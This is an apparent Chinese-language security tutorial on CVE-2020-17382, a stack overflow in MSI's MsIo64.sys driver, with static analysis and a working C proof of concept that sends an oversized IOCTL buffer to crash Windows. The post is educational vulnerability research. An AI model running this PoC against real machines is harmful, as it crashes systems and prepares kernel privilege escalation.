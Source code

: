 # 【第 12 話】CVE-2020-17382 研究－Buffer Overflow（上）

## 文章大綱
我們在[【第 11 話】Capcom.sys 研究－Arbitrary Shellcode Execution](/asset/第%2011%20話) 分析了 Capcom.sys 的漏洞，並且在最後介紹了 SMEP 的保護機制。

接下來將利用 CVE-2020-17382 的 Stack Overflow 漏洞搭配 ROP 繞過 SMEP 保護，然後執行 Shellcode 達成提權。這篇只介紹 CVE-2020-17382 的漏洞成因與 Stack Overflow 的 PoC，下一篇再說明整個攻擊流程。

## 介紹 CVE-2020-17382
首先來看看 [CVE-2020-17382](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17382) 在 MITRE 的描述。

The MSI AmbientLink MsIo64 driver 1.0.0.8 has a Buffer Overflow (0x80102040, 0x80102044, 0x80102050, and 0x80102054).

直接用列點的方式抓重點。
- 軟體：[MSI AmbientLink](https://www.msi.com/Landing/ambient-link/)
- 元件：MsIo64.sys 1.0.0.8
- 漏洞位置：0x80102040、0x80102044、0x80102050、0x80102054
- 漏洞成因：Buffer Overflow

從我的 GitHub 下載目標驅動程式檔案 [MsIo64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/MsIo64.sys)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 MsIo64.sys 的數位簽章資訊，是 2018 年 2 月 12 日的簽章。

![](Signature.png)



## 靜態分析
IDA 開啟 MsIo64.sys 後看 `DriverEntry` 可以快速找到 Dispatcher 的函數位址與 Symbolic Link Name `MsIo`。

![](DriverEntry.png)

跟進 Dispatcher 後找 CVE 中提到的 IoControlCode 0x80102040，其中 `Src` 這個變數存在 Stack 上，SystemBuffer 跟 InputBufferLength 分別是我們的輸入與輸入長度。在下圖紅框中的 `memmove(Src, SystemBuffer, InputBufferLength);` 之前並沒有限制輸入長度，因此很明顯 Stack Overflow 漏洞就發生在這。

![](IoControlCode.png)


## 攻擊腳本－Crash
現在已知有個 Stack Overflow 的漏洞，理論上我們給一長串 `aaaaaaaa...` 給驅動程式，這個輸入就會塞滿 Stack 並覆蓋 Return Address 而導致系統崩潰。

完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2020-17382/Crash)。

```c
#include <Windows.h>
#include <iostream>

#define SymLinkName L"\\\\.\\MsIo"

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 1;
    }

    DWORD dwWrite;

    // 輸入 0x100 個 'a' 讓 MsIo64.sys 因為 Stack Overflow 而崩潰
    char data[0x100];
    memset(data, 'a', 0x100);
    DeviceIoControl(hDevice, 0x80102040, data, sizeof(data), NULL, 0, &dwWrite, NULL);

    CloseHandle(hDevice);
    return 0;
}
```


## 測試
在 VM 中載入 [MsIo64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/MsIo64.sys) 後執行 [Crash.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/Crash.exe)，會看到 BSOD 如下圖。

![](BSOD.png)



## 參考資料
- [CVE-2020-17382](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17382)
- [Windows 10 x64上令牌窃取有效载荷问题，并绕过SMEP（下）](https://www.4hou.com/shop/posts/4YAV)
- [SMEP: What is it, and how to beat it on Windows](https://j00ru.vexillium.org/2011/06/smep-what-is-it-and-how-to-beat-it-on-windows/)
- [HEVD Window Kernel Exploit 01 - StackOverflow](https://www.anquanke.com/post/id/218682)
- [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)